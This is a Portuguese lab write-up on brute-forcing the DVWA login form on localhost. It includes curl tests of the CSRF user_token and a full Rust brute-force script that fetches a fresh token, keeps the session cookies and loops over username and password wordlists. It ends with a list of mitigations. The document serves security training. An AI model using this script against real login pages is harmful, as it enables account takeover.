

A resposta foi `302 Found` com `Location: index.php`, confirmando o login. Essa diferença no destino do redirect comprova que o `user_token` é validado pelo servidor junto à sessão atual, e que reaproveitar ou forjar esse valor não é suficiente para autenticar.

Um terceiro teste, com credencial incorreta e token válido, confirma o mesmo comportamento de rejeição:

```bash
TOKEN=$(curl -s -b cookies.txt -c cookies.txt http://localhost/login.php | grep -oP "name='user_token' value='\K[^']+")

curl -s -i -b cookies.txt http://localhost/login.php \
  --data-urlencode "username=admin" \
  --data-urlencode "password=errada" \
  --data-urlencode "Login=Login" \
  --data-urlencode "user_token=$TOKEN"
```



Os três testes confirmam que o servidor redireciona para `login.php` sempre que a autenticação falha, seja por token inválido, seja por credencial incorreta. O redirecionamento para `index.php` acontece apenas quando ambos (token e credencial) são válidos.

### 3. Ataque de força bruta com script em Rust

Para essa etapa, optei por implementar o brute force em Rust, linguagem que venho
estudando, construindo manualmente o fluxo de obtenção do token, envio das
credenciais e validação da resposta. O script é propositalmente simples e direto,
sem tratamento de erros mais robusto, retries, ou otimizações como paralelismo.
O foco aqui foi aplicar os conceitos da linguagem num cenário prático, não
construir uma ferramenta pronta para produção.

#### 3.1. Primeira versão: comunicação básica

Antes de lidar com token CSRF e sessão, o primeiro passo foi validar que o script
conseguia se comunicar com o servidor: montar um client HTTP e enviar uma requisição
GET para a página de login.



Executando o código, vemos que a comunicação funcionou e recebemos a resposta `200 OK` do servidor.



#### 3.2. Segunda versão: leitura da resposta HTTP

Após validar a comunicação com o servidor, modifiquei o código para ler o corpo da resposta HTTP e exibir o HTML recebido.





#### 3.3. Terceira versão: extração do token

Com o HTML da página em mãos, o próximo passo foi extrair o valor do `user_token`. O padrão de busca usado como marcador (`name='user_token' value='`) é o mesmo trecho já identificado anteriormente na análise do formulário via `curl`:

```html
<input type='hidden' name='user_token' value='0cb9b8b26848701f35733fdc8d291399' />
```

A função `extract_user_token` localiza esse marcador no corpo da resposta, avança
até o início do valor e captura tudo até a próxima aspa simples, retornando o
token da sessão atual.

```rust
fn extract_user_token(body: &str) -> Option<String> {
    let marker = "name='user_token' value='";
    let start = body.find(marker)? + marker.len();
    let end = body[start..].find('\'')? + start;
    Some(body[start..end].to_string())
}
```

Executando o código, o token é extraído corretamente a partir da resposta do servidor:



#### 3.4. Gerenciamento de sessão

O DVWA, como a maioria das aplicações web com autenticação, utiliza cookies de 
sessão para vincular o `user_token` ao visitante que o recebeu. Para lidar com 
isso de forma simples, habilitei a feature `cookies` do `reqwest`:

```toml
reqwest = { version = "0.12", features = ["blocking", "cookies"] }
```
E mudando a construção do client para habilitar o armazenamento automático de cookies entre requisições:

```rust
let client = Client::builder()
    .cookie_store(true)
    .build()
    .expect("\n[ERROR]: falha ao construir client\n");
```

Com `cookie_store(true)`, o `Client` passa a armazenar e reenviar automaticamente 
os cookies recebidos em cada requisição, garantindo que o `user_token` obtido 
seja validado na mesma sessão em que a tentativa de login será enviada.

#### 3.5. Envio da tentativa de login

Com o token e a sessão resolvidos, o próximo passo foi montar a função responsável por enviar uma tentativa de login:

```rust
fn try_login(client: &Client, token: &str, username: &str, password: &str) -> Result<bool, Error> {
    let params = [
        ("username", username),
        ("password", password),
        ("Login", "Login"),
        ("user_token", token),
    ];

    let resp = client.post(TARGET_URL).form(&params).send()?;

    Ok(resp.url().path() != "/login.php")
}
```

O envio replica exatamente os campos identificados na análise do formulário (seção 2), enviados via `.form()` como `application/x-www-form-urlencoded`, o mesmo formato que um navegador usaria ao submeter o form.

Para determinar se a tentativa foi bem-sucedida, testei manualmente via `curl` (seção 2) que uma credencial válida redireciona o navegador para `index.php`, enquanto uma inválida redireciona de volta para `login.php`. Como o `reqwest` segue redirecionamentos automaticamente por padrão, a resposta final (`resp`) já reflete a página de destino, bastando comparar o caminho da URL resultante (`resp.url().path()`) com `/login.php` para determinar o resultado.

#### 3.6. Leitura das wordlists

Para ler os arquivos de usuários e senhas, reaproveitando as wordlists já utilizadas no FTP e SMB, implementei uma função genérica de leitura:

```rust
fn read_wordlist(path: &str) -> Vec<String> {
    let file = match File::open(path) {
        Ok(file) => file,
        Err(_) => {
            eprintln!(
                "\n[ERROR]: O arquivo '{}' nao foi encontrado ou nao pode ser aberto.\n",
                path
            );
            std::process::exit(1);
        }
    };

    let reader = BufReader::new(file);
    reader
        .lines()
        .filter_map(Result::ok)
        .filter(|line| !line.is_empty())
        .collect()
}
```
A função tenta abrir o arquivo recebido por parâmetro. Se a abertura falhar (arquivo inexistente, sem permissão, etc.), o programa imprime uma mensagem de erro e encerra a execução com `std::process::exit(1)`. Se o arquivo abrir normalmente, seu conteúdo é lido linha a linha com `BufReader`, descartando linhas vazias (`filter(|line| !line.is_empty())`) para evitar testar credenciais em branco, e o resultado é coletado em um `Vec<String>`.

#### 3.7. Loop de força bruta

Com tudo pronto (token, sessão, envio de tentativa e leitura de wordlists), a função `run_brute_force` percorre todas as combinações de usuário e senha. Ela recebe o `client` já configurado, a lista de usuários e a lista de senhas, e retorna um `Option<(String, String)>`: `Some((usuario, senha))` quando encontra uma credencial válida, ou `None` caso nenhuma combinação funcione:

```rust
fn run_brute_force(
    client: &Client,
    users: &[String],
    passwords: &[String],
) -> Option<(String, String)> {
    for username in users {
        for password in passwords {
            let body = match get_login_page(client) {
                Ok(body) => body,
                Err(err) => {
                    eprintln!("\n[ERROR]: {err}\n");
                    continue;
                }
            };

            let token = match extract_user_token(&body) {
                Some(token) => token,
                None => {
                    println!("[-] token nao encontrado, pulando tentativa.");
                    continue;
                }
            };

            println!("[-] testando: {username}:{password}");

            match try_login(client, &token, username, password) {
                Ok(true) => return Some((username.to_owned(), password.to_owned())),
                Ok(false) => continue,
                Err(err) => eprintln!("\n[ERROR]: {err}\n"),
            }
        }
    }
    None
}
```

Diferente do FTP e SMB, onde o Medusa envia uma única requisição por tentativa, aqui cada combinação usuário/senha exige duas requisições HTTP: um `GET` para obter um `user_token` válido para aquela sessão, seguido do `POST` com as credenciais. Isso é necessário porque, como cada carregamento da página emite um token novo, a extração precisa acontecer imediatamente antes de cada POST.

A função retorna assim que encontra a primeira combinação válida (`return Some(...)`), interrompendo a busca. Esse comportamento equivale à flag `-f` do Medusa, usada nos ataques anteriores.

#### 3.8. Função principal

```rust
fn main() -> ExitCode {
    let client = Client::builder()
        .cookie_store(true)
        .build()
        .expect("\n[ERROR]: falha ao construir client\n");

    let users = read_wordlist(USERS_FILE);
    let passwords = read_wordlist(PASS_FILE);

    match run_brute_force(&client, &users, &passwords) {
        Some((user, pass)) => {
            println!("\n[SUCCESS]: credencial encontrada: {user}:{pass}\n");
            ExitCode::SUCCESS
        }
        None => {
            println!("\n[ERROR]: nenhuma credencial encontrada.\n");
            ExitCode::FAILURE
        }
    }
}
```

A `main` orquestra as etapas anteriores: constrói o client, carrega as wordlists e repassa tudo para `run_brute_force`, que executa o ataque. O uso de `ExitCode::SUCCESS`/`ExitCode::FAILURE` como retorno permite que o script seja integrado a outros fluxos de automação, como scripts shell que verificam o código de saída do processo: `0` indica que uma credencial válida foi encontrada, `1` que as wordlists foram esgotadas sem sucesso.

Executando o script contra o DVWA, o loop percorre as combinações das wordlists, exibindo cada tentativa, até encontrar a primeira credencial válida e encerrar a busca:




### Mitigações

- **Rate limiting e bloqueio de IP/conta**: adicionar limites estritos de tentativas de login por endereço IP e por conta de usuário num determinado intervalo de tempo, bloqueando ou desacelerando requisições automatizadas (brute force / credential stuffing).
- **Mecanismos anti-automação (CAPTCHA / WAF)**: integrar soluções de desafio (como CAPTCHA invisível ou desafios comportamentais) em formulários de autenticação para distinguir usuários legítimos de scripts automatizados.
- **Autenticação multifator (MFA)**: exigir um segundo fator de autenticação (como OTP baseado em tempo, TOTP) no login, mitigando drasticamente o risco mesmo que a senha seja comprometida por força bruta.
- **Políticas de senhas robustas**: aplicar validações rígidas de complexidade, tamanho e histórico de senhas, além de bloquear o uso de credenciais padrão ou amplamente conhecidas em dicionários.
- **Monitoramento e alertas de autenticação**: centralizar e monitorar logs de acesso web (falhas consecutivas de login, variações anômalas de volume de requisições) para detecção proativa de ataques em tempo real. Neste laboratório, o tráfego gerado tem uma assinatura própria: cada tentativa exige um GET antes do POST, dobrando as requisições à página de login com um padrão repetitivo que nenhum usuário real gera.
